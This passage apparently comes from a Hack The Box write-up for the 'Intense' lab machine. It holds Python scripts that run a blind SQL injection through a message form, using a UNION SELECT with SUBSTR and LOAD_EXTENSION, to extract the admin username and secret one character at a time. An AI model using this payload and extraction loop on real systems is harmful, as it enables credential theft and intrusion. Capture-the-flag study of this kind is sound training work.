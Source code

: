 ```python
        if r.text == "not authorized":
            if char != guest[i]:
                name += char
                print(f"char found: {char}")
print(name)
```

Success!

```text
char found: a
char found: d
char found: m
char found: i
char found: n
admin
```

As expected, the username is `admin`. Now let's extract the secret.

### Extracting the admin secret

```python
from requests import post
from string import hexdigits

guest = '84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec'
admin = ''

i = 0

for i in range(0, len(guest)):
    for char in hexdigits:
        message = f"yes') UNION SELECT CASE SUBSTR(secret,{i + 1},1) WHEN '{char}' THEN LOAD_EXTENSION('b') ELSE 'yes' END role FROM users--"

        data = {'message': message}

        r = post('http://intense.htb/submitmessage', data=data)

        if r.text == "not authorized":
            if char != guest[i]:
                admin += char
                print(f"char found: {char}")

    # if at the end of trying all digits the secret isn't the expected length,
    # it must have shared a digit with the guest secret and we skipped over it
    # so we'll just append it
    if len(admin) != (i + 1):
        char = guest[i]
        admin += char
        print(f"char found: {char}")

print(admin)
```

